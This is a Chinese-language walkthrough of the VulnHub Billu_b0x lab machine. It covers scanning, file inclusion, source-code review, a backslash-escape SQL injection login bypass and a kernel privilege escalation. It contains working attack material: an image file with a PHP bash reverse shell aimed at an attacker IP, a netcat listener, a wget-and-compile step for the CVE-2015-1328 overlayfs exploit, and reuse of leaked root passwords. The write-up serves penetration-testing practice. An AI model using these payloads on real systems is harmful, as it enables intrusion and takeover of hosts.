# 前言

### 靶场介绍

主要涉及nmap扫描、web渗透、文件包含漏洞利用、php代码审计、sql注入原理、图片木马制作，php反弹shell的使用和url编码技巧。靶机本身不难，但是综合利用还是有很多技巧和思路的。涉及的知识点较多，希望对你渗透技能提升有帮助。想实操的可以学习视频的同时在vulnhub.com下载靶机动手练习。

### 靶场信息

**靶机IP**：`192.168.200.155 00:0c:29:92:13:2e`（_注：实际运行环境中，IP 需根据本地虚拟机的 DHCP 网络环境使用扫描工具确定_） 

**靶机网址：** https://www.vulnhub.com/entry/billu-b0x,188/

**下载（镜像）：** https://download.vulnhub.com/billu/Billu_b0x.zip

### 思维导图



# 1.信息收集

## 1.1 Nmap信息扫描

### 端口扫描

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### 详细信息

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 fa:cf:a2:52:c4:fa:f5:75:a7:e2:bd:60:83:3e:7b:de (DSA)
|   2048 88:31:0c:78:98:80:ef:33:fa:26:22:ed:d0:9b:ba:f8 (RSA)
|_  256 0e:5e:33:03:50:c9:1e:b3:e7:51:39:a4:4a:10:64:ca (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: --==[[IndiShell Lab]]==--
```


### 漏洞扫描

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /test.php: Test page
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
```

## 1.2 Web渗透

### 页面信息检索

既然在 Nmap 端口扫描的时候，发现目标开放了80端口。我们就去访问一下这台主机的web界面，看一下web界面主页上显示了什么内容，主页提示 "Show me your SQLI skills"，暗示了这台靶机的核心突破点应该和 SQL 注入有关。



右击查看网页源代码进行初步分析：标题是这台靶机的名称，页面上有一个 POST 提交的登录表单，共传递三个参数（用户名、密码，以及一个 `login` 动作参数）。




结合主页关于 SQL 注入的提示，我打算首先尝试使用常见的 SQL 注入万能密钥进行登入绕过，尝试了几种方法，始终无法绕过登入。于是，我在测试的同时开启目录扫描以寻找其他攻击面。
### 目录扫描

使用 **dirsearch** 进行目录扫描，整理出的可用目录及高价值端点如下：

```
# === 状态码 200（高利用价值）
http://192.168.200.155/add.php		# 文件上传，sql注入
http://192.168.200.155/head.php		# 应该是 index 页面的头图，就一张图片
http://192.168.200.155/images/		# 存放了三张图片，猜测是文件上传的路径
http://192.168.200.155/in			# phpinfo()页面
http://192.168.200.155/phpmy/		# phpmyadmin 登入界面，测试了几个常见的弱密码，没有成功
http://192.168.200.155/index.php	# 网站主页，post登入框，似乎存在sql注入
http://192.168.200.155/test.php		# 提示：“'file' parameter is empty. Please provide file path in 'file' parameter ”，可能有文件包含，但是找不到对应参数

# === 状态码 301/302: 重定向 
http://192.168.200.155/images      -> http://192.168.200.155/images/
http://192.168.200.155/panel       -> http://192.168.200.155/index.php
http://192.168.200.155/panel.php   -> http://192.168.200.155/index.php

# === 状态码 200 （无效）
http://192.168.200.155/c			# 空白页面
http://192.168.200.155/show			# 空白页面
```

全部扫描记录截图



### 信息收集阶段总结与初步思路

总结目前收集到的信息，核心突破点大概率在 SQL 注入上。当前发现的页面中 `add.php` 和 `index.php` 均存在 SQL 注入的可能性，但常规测试暂未成功。此外，扫描出了 phpMyAdmin 登录页面，后续可尝试使用常见弱口令进行爆破或撞库，看能否直接获取数据库访问权限。同时，`test.php` 暴露的文件包含漏洞也是一个高优先级的利用方向。

### 重大发现

在测试 test.php 页面时。当时我陷入了思维定式，仅尝试了 GET 方式传参，忽略了改用 POST 方式进行测试。这一疏忽导致我一度遗漏了获取这台靶机 Initial Access 的关键入口。

实际上，在使用 POST 方式传入 `file=<file name>`  就可以将传入参数中指定文件给下载下来，得到了文件，对靶机进行白盒审计，那就很简单了。


# 2.权限立足

通过 `test.php` 下的 LFI 漏洞，可以下载目录扫描到的所有可访问页面，进行代码白盒审计。本次渗透共有两种方法可以进入控制台，先介绍我的第一种方法，后续介绍红笔的打法。

## 2.1 代码白盒审计 & 数据库渗透

先讲一下第一种方法。进行白盒审计的时候，在 `c.php` 中，发现其中包含一段连接数据库的命令，里面明文写着数据库凭证。我尝试用这组凭据去访问 phpMyAdmin，成功登录。

`c.php` 源码：

```php
<?php
#header( 'Z-Powered-By:its chutiyapa xD' );
header('X-Frame-Options: SAMEORIGIN');
header( 'Server:testing only' );
header( 'X-Powered-By:testing only' );

ini_set( 'session.cookie_httponly', 1 );

$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }
?>
```

> **核心凭据：**$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

登录 phpMyAdmin 后，可以看到两个数据库：一个是 `ica_lab`，另一个是默认的 `information_schema`。



继续查看 `ica_lab` 数据库。在这个数据库中，总共存在三个表：`auth`、`download` 和 `users`。

```sql
show tables;
```

| Tables_in_ica_lab |
| ----------------- |
| auth              |
| download          |
| users             |
仔细查看 `auth` 表，发现里面存放了一组用户名和密码，且密码是明文保存的。我怀疑这是网页后台的登录账户，尝试后发现确实如此。

| **uname** | **pass** |
| --------- | -------- |
| biLLu     | hEx_it   |



download:



users:




渗透思考： 现在我已经得到了 phpMyAdmin 的账户权限，以及网页用户的明文密码。 下一步的目标是：如何获取网站的物理路径？

- 靠猜测？尝试 Apache 默认主路径（如 /var/www/html）？

- 能否通过 SQL 查询直接爆出绝对路径？

我原本想直接通过 SQL 语句写一个反弹 shell 到网页路径下（Into Outfile），但是执行时页面报了类似 Access denied for user... Using password: YES 的错误（错误码 1045）。看来当前数据库用户没有写文件的权限（File 权限被限制）。




---
## 2.2 SQL注入

第二种进入后台的方式是通过主页的 SQL 注入，使用以下万能密钥登录：

```sql
or 1=1 -- \
```

>**渗透思考**：
>- 思考：页面返回 "try again" 具体代表什么？
>- 对比：字符型注入与数字型注入的区别
>- 实践：POST 注入框的各种万能密钥写法
>- 疑问：为什么 `-- -` 不行，`-- \` 却可以？其他闭合方式是否也能奏效？

带着疑问去审计处理登录的源码（`index.php`）：

实际拼接的查询语句：

```php
$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
```

---
### 漏洞成因深度解析：

这段代码的白盒逻辑很清晰。下面详细讲解这个 SQL 注入绕过的原理：为什么 `un` 和 `ps` 都填 `or 1=1 -- \` 可以绕过登录？

#### 第一步：理解代码的"过滤"逻辑

```php
// 第 44-45 行
$uname = str_replace('\'', '', urldecode($_POST['un']));
$pass  = str_replace('\'', '', urldecode($_POST['ps']));
```

开发者试图通过**删除所有单引号 `'`** 来防止 SQL 注入。但这个过滤方法有一个致命的缺陷。

---

#### 第二步：理解 SQL 语句的拼接结构

```php
// 第 59 行
$run = 'select * from auth where pass=\'' . $pass . '\' and uname=\'' . $uname . '\'';
```

展开后，正常情况下 SQL 是：

```sql
SELECT * FROM auth WHERE pass='[pass的值]' AND uname='[uname的值]'
```

注意顺序：**先 pass，后 uname**。这是绕过的关键！

---

#### 第三步：代入 `or 1=1 -- \` 进行分析

当 `un` 和 `ps` 都填入 `or 1=1 -- \` 时：

**① 经过 `str_replace` 过滤单引号后**（单引号被删掉，其他字符保留）：

| 字段 | 过滤后的值 |
|------|-----------|
| `$pass` | `or 1=1 -- \` |
| `$uname` | `or 1=1 -- \` |

**② 代入 SQL 拼接后，完整语句为：**

```sql
SELECT * FROM auth WHERE pass='or 1=1 -- \' AND uname='or 1=1 -- \'
```

**③ 关键！MySQL 如何解析这条语句？**

反斜杠 `\` 在 MySQL 字符串中是**转义字符**，`\'` 会被解析为**字面量单引号**，而不是字符串的结束符！

所以 MySQL 实际看到的字串边界是：

```
pass=' or 1=1 -- \' AND uname=' or 1=1 -- \'
        ↑_________________________↑
        这整段被当作 pass 字段的"值"（字符串未闭合，继续往后找）
```

更准确地说，MySQL 会把第一个 `'` 到**下一个未被转义的 `'`** 之间的内容当作字符串值。由于 `--\` 中的 `\` 转义了后面紧跟的 `'`，字符串就延伸到了 `uname=` 之后。

实际解析结构如下：

```
pass = [or 1=1 -- \' AND uname=or 1=1 -- ]   ← 这是 pass 的值（含 AND uname 部分）
最后一个 \' 后面的内容                   ← 语句结束
```

> [!IMPORTANT]
> 反斜杠 `\` 将紧随其后的单引号 `\'` **转义为普通字符**，"吃掉"了 `pass` 字段的闭合引号。`AND uname='or 1=1 --` 这一段变成了 pass 值的一部分，而最后的 `\'` 成为该字符串的真正结束，之后语句已完整，实际执行的逻辑条件为 **`1=1`（永真条件）**，导致登录成功。

---

#### 第四步：为什么查询会返回结果？

因为 `WHERE` 条件中包含了 `1=1`，整张 `auth` 表的**所有行**都会被返回。

```php
if (mysqli_num_rows($result) > 0) {  // 有结果 → 登录成功
    $_SESSION['logged'] = true;
    $_SESSION['admin']  = $row['username']; // 取第一条用户名
    header('Location: panel.php', ...);
}
```

查询返回行数 > 0，直接登录成功，`$_SESSION['admin']` 被赋值为数据库中第一个用户的用户名。

---

#### 总结：漏洞成因链

```
开发者只过滤了单引号 (')
   ↓
但没有处理反斜杠 (\)
   ↓
\' 在 MySQL 中被解析为转义的单引号（而非字符串结束符）
   ↓
pass 字段的字符串被 \ 延长，"吞掉"了 AND uname= 部分
   ↓
最终 WHERE 条件等价于 WHERE 1=1
   ↓
返回全表数据 → 登录成功 
```

这种攻击方式叫做 **反斜杠转义绕过（Backslash Escape Bypass）**，是 CTF 和实战中过滤不完整时的经典利用手法。正确的防御方式是使用**参数化查询（Prepared Statements）**，而非字符串过滤。


## 2.3 文件包含漏洞利用

成功登录进入 `panel.php` 后，页面上有一个表单，包含两个下拉选项。F12 查看页面源码：

```html
<select name=load>
    <option value="show">Show Users</option>
	<option value="add">Add User</option>
</select> 
```



选择 `Show Users` 提交，页面列出了两个用户的信息以及对应的头像图片。



选择 `Add User` 提交，页面加载了一个可以上传图片并填写用户信息的表单（这个功能在审计 `a.php` 时见过）。



---

### 寻找突破口

当我探测到这一步时，直觉告诉我这里存在文件包含漏洞。因为访问 `panel.php` 主页时默认是空的，只有当提交 `load` 参数（`show` 或 `add`）时，页面才加载出对应的内容。

结合前期 Web 目录枚举扫到的 `/add` 和 `/show` 目录，可以推断逻辑是：通过 `load` 参数将 `add.php` 或 `show.php` 文件包含到了当前页面中。这与我之前打过的一个靶机非常相似，通过修改 `<option>` 的值触发文件包含漏洞。

尝试将 `load` 参数修改为目录穿越 payload 读取 `/etc/passwd`，成功回显，证明 LFI 存在： 

```
../../../../../../../../etc/passwd
```



> 注：在打这台靶机的时候，我先去没有找到test.php 的利用方法，直接通过sql注入登入进来，后续我尝试用 PHP 伪协议读取 `add.php` 源码，但未成功，实际上这台靶机应该直接利用前面发现的 `test.php` 漏洞点去读源码。


---
### 分析文件上传过滤逻辑

查看 `add.php` 源码，上传逻辑如下：

```php
if(!empty($_FILES['image']['name']))
{
    $iname = mysqli_real_escape_string($conn, $_FILES['image']['name']);
    $r = pathinfo($_FILES['image']['name'], PATHINFO_EXTENSION);
    $image = array('jpeg','jpg','gif','png');

    if(in_array($r, $image))
    {
        $finfo = @new finfo(FILEINFO_MIME);
        $filetype = @$finfo->file($_FILES['image']['tmp_name']);

        if(preg_match('/image\/jpeg/', $filetype) || preg_match('/image\/png/', $filetype) || preg_match('/image\/gif/', $filetype))
        {
            if(move_uploaded_file($_FILES['image']['tmp_name'], 'uploaded_images/'.$_FILES['image']['name']))
            {
                echo "Uploaded successfully ";
                $update = 'insert into users(name,address,image,id) values(\''.$name.'\',\''.$address.'\',\''.$iname.'\', \''.$id.'\')';
                mysqli_query($conn, $update);
            }
        }
        else
        {
            echo "<br>i told you dear, only png,jpg and gif file are allowed";
        }
    }
    else
    {
        echo "<br>only png,jpg and gif file are allowed";
    }
}
```

过滤机制共两层：

1. **后缀名白名单**：仅允许 `jpeg`、`jpg`、`gif`、`png`
2. **MIME 类型检测**：通过 `finfo` 检测文件真实 MIME 类型

绕过思路：将 PHP 反弹 Shell 代码追加到一张真实图片的末尾，使文件通过 MIME 检测，再利用 LFI 漏洞包含执行该文件。

### 文件上传地址

通过代码审计确认上传目录为：`http://192.168.200.155/uploaded_images/`





测试正常上传流程：上传一张正常的图片，数据库记录指向了正确的文件名，且直接访问 `uploaded_images/` 路径能成功看到图片。


访问路径，文件被正常上传成功并能访问




查看数据库信息路径确实指向的是这个文件


点击 show user 查看



---

### 构造图片木马

```bash
# 复制一张真实图片
cp '/path/to/real.png' ./shell.png

# 追加反弹 Shell 代码
echo '<?php exec("/bin/bash -c \"bash -i >& /dev/tcp/192.168.200.142/4444 0>&1\""); ?>' >> shell.png
```

对于 GIF 格式，也可以直接在文件头写入 `GIF89a` 魔术字节绕过 MIME 检测：

```bash
# cmd.jpg 内容如下
GIF89a
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.200.142/4444 0>&1'"); ?>
```

**上传并触发执行：**

确认文件上传至 `http://192.168.200.155/uploaded_images/` 后，在本地开启监听：

```bash
nc -lvnp 4444
```

通过修改 `panel.php` 的 `load` 参数，将值改为 `uploaded_images/cmd.jpg`，触发 LFI 包含执行木马文件：

```
load=uploaded_images/cmd.jpg
```



成功获取 Webshell，反弹 Shell 建立连接。



# 3.权限提升

## 3.1 信息收集

获得 www-data 的反弹 shell 后，首先进行基本信息枚举：

```
┌──(kali㉿kali)-[~/vulnhub/Billu_b0x/web]
└─$ sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.200.142] from (UNKNOWN) [192.168.200.155] 44837
bash: no job control in this shell
www-data@indishell:/var/www$

www-data@indishell:/var/www$ whoami
www-data
www-data@indishell:/var/www$ uname -a
Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
```

确认内核版本为 **3.13.0-32**，Ubuntu 12.04/14.04，属于较旧版本，存在本地提权利用空间。

---
### sudo 枚举

```
www-data@indishell:/var/www$ sudo -l
sudo: no tty present and no askpass program specified
```

无法使用 sudo，跳过。

---

### 计划任务枚举

```bash
www-data@indishell:/var/www$ cat /etc/crontab
```

系统 crontab 中无可利用的异常条目，均为系统默认任务。

进一步检查 `/etc/cron.d/`：

```bash
www-data@indishell:/var/www$ cat /etc/cron.d/php5
# Look for and purge old sessions every 30 minutes
09,39 * * * * root [ -x /usr/lib/php5/maxlifetime ] && ...
```

php5 会话清理任务，无可利用点。计划任务路线放弃。

---

### 内核漏洞提权（CVE-2015-1328 overlayfs）

内核版本 `3.13.0` 符合 CVE-2015-1328 的利用范围（Linux Kernel 3.13.0 < 3.19），搜索对应 EXP：

```bash
┌──(kali㉿kali)-[~/vulnhub/Billu_b0x]
└─$ searchsploit -m linux/local/37292.c
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
    Codes: CVE-2015-1328
 Verified: True
```


#### 漏洞原理

```
overlayfs 在用户命名空间（user namespace）中挂载时未正确检查权限
        ↓
普通用户可向 /etc/ld.so.preload 写入恶意共享库路径
        ↓
/bin/su 以 root 身份执行时，动态链接器加载恶意库
        ↓
getuid() 被 hook → 弹出 root shell
```

#### 攻击链拆解

```
main()
  ├─ fork() 创建子进程
  ├─ unshare(CLONE_NEWUSER)       # 创建新用户命名空间
  ├─ clone(child_exec)            # 创建新挂载命名空间
  │     ├─ mount overlayfs #1     # lowerdir=/proc/sys/kernel
  │     ├─ rename → ld.so.preload # 关键：将文件重命名覆盖
  │     └─ mount overlayfs #2     # upperdir=/etc ← 获得 /etc 写权限
  │
  ├─ open("/etc/ld.so.preload")   # 此时 www-data 可写
  ├─ 编译 /tmp/ofs-lib.so         # 恶意动态库
  ├─ 写入库路径到 ld.so.preload
  └─ execl("/bin/su")             # 触发加载 → root shell
```

### 实际操作步骤

**攻击机准备：**

```bash
searchsploit -m linux/local/37292.c
python3 -m http.server 8081
```

**靶机执行：**

```bash
# 确认gcc可用
which gcc

# 下载到/tmp
cd /tmp
wget http://192.168.200.142:8081/37292.c

# 编译执行
gcc 37292.c -o ofs
chmod +x ofs
./ofs

```

成功获得 root 权限：

```bash
# 成功后
id   # uid=0(root)
```



---

### 补充路线：phpMyAdmin 配置文件泄露密码

在 www-data 权限下读取 phpMyAdmin 配置文件：

```bash
www-data@indishell:/var/www/phpmy$ cat config.inc.php
...
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = 'roottoor';
```

获得 MySQL root 密码 `roottoor`。根据靶机的一贯习惯，数据库 root 密码往往与系统 SSH root 密码相同，可尝试 `ssh root@192.168.200.155`，密码 `roottoor` 直接登录系统 root，同样可完成提权。

---
# 4.总结

这台靶机我先后参考了三次提示才最终完成（严格来说算两次）。在早期的目录扫描阶段，扫描结果显示存在大量目录。经过逐一排查，初步判断该目标存在多个潜在的攻击面。

随后，我将注意力集中在 index.php 上。这是网站的主页，也是 panel 302 跳转后的目标页面。由于页面明确提示“展示你的 SQLi 技能”，我推测该登录入口可能存在 SQL 注入漏洞，并尝试通过万能密码进行绕过。

在尝试了多种构造形式的万能密码均告失败后，我开始怀疑当前的渗透思路是否存在偏差。此时我查看了第一个提示，得知使用 `or 1=1 -- \` 即可成功登入。事后看来，这个提示的“性价比”并不高，因为在后续的代码审计阶段，这种特定的 Payload 逻辑本可以直接从源码中推导出来。

第二个提示出现在测试 test.php 页面时。当时我陷入了思维定式，仅尝试了 GET 方式传参，忽略了改用 POST 方式进行测试。这一疏忽导致我一度遗漏了获取这台靶机 Initial Access（初始立足点）的关键入口。

后续的渗透方式就非常明确，通过上传木马图片，用 LFI 加载反弹 shell 获得 WebShell，通过Webshell进行提权。

不过在进入最后的提权阶段，我看了最后一次提示。原因是：我不确定要不要使用内核提前获得root权限。因为以前的红队笔记视频中提到，不得已才使用内核提权，并且内核提权会对系统造成不可逆的损伤。